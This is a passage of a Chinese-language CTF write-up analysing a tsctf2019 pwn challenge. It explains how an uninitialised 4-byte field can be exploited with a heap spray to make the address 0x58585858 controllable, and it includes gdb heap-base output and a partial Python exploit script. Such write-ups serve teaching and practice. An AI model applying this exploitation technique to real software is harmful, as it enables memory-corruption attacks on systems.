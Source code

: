##### <a class="reference-link" name="%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90"></a>漏洞分析

​ 乍一看似乎没发现比较明显的漏洞点，但是就像之前提到的Create时候的那最后4byte，暗含的未初始化的问题，后面的CallFunction也与其相关。所以基本可以断定问题在与如何利用这未初始化的4byte。

##### <a class="reference-link" name="%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8%EF%BC%88%E5%88%A9%E7%94%A8%E6%96%B9%E5%BC%8F%E4%B8%8Elibc%E7%89%88%E6%9C%AC%E6%97%A0%E5%85%B3%EF%BC%8C%E5%8F%AA%E6%98%AF%E5%87%A0%E4%B8%AAlibc%E7%9A%84%E5%81%8F%E7%A7%BB%E9%87%8F%E6%9C%89%E5%8C%BA%E5%88%AB%EF%BC%8C%E8%BF%99%E9%87%8C%E6%98%AFlibc.2.23)"></a>漏洞利用（利用方式与libc版本无关，只是几个libc的偏移量有区别，这里是libc.2.23)

​ 才疏学浅，没能想到如何利用这个漏洞，根据[官方exp](//github.com/xmzyshypnc/xz_files/tree/master/tsctf2019/%E8%96%9B%E5%AE%9A%E8%B0%94/p1ayer.tar))，调试复现整个利用过程，分析下其中的细节。

​ 主要是想利用未初始化的4byte，可以在heap上产生遗留数据，导致之后分配的heap的最后4byte可控，进而利用CallFunction可以控制该地址的内容减一。但是这里有一个问题，就是最后4byte我们控制为什么地址呢？由于开启了**PIE 、 ALSR**，我们没有一个可靠的地址。而很明显该漏洞的利用前提是我们需要一个可控的地址。

​ 接下来我们的主人公就出场了，**HeapSpray**就是解决这类尴尬问题的绝妙选择。[具体原理](https://www.cnblogs.com/Fang3s/articles/3911561.html)我就不细说（不是本文的重点）。需要注意到一个问题就是虽然每次Heap地址是随机的，但是其范围是一定的。下面是我多次调试运行得到的Heap的基地址

```
gdb-peda$ heapbase
heapbase : 0x5655a000
gdb-peda$ heapbase
heapbase : 0x5828b000
gdb-peda$ heapbase
heapbase : 0x574dc000
gdb-peda$ heapbase
heapbase : 0x57dcc000
gdb-peda$ heapbase
heapbase : 0x572e9000
......
```

可以明显的感受到Heap基地址的范围是在**0x56xxxxxxxx**和**0x58xxxxxx**之间的。

类似我们熟知的**0x0C0C0C**，在这里选用的是**0x58585858**作为**magic_addr**。也即（**XXXX**)

通过分配**0x10 ** 0x10 ** 0x20000**大小的chunk，只要heap基地址满足0x5658xxxx以上（概率极大），堆就会增长到覆盖0x58585858。可以达到[0x58585858] = 0x58585858的目的。（0x56xxxxxx + 0x200000000 = 0x58xxxxxxxx）

```
data = []
    for i in range(0x10):                   
        data.append(['X' * (0x20000 - 1), 1])

    malloc(0x20000, data)
    delete()

    dbg()
    # all chunk full with 0x58
    # malloc 0x10 * 0x10 0x20000 chunks ==&gt; 0x2000000
    # heapbase ==&gt; 0x56xxxxxx | 0x57xxxxxx
    # so heapspray to 0x58xxxxxxx | 0x59xxxxxx
    # while dword[0x58585858] == 0x58585858

    for i in range(0x10):
        malloc(0x20000, data)
                                        # index 0 - 0xff
    data = []
```
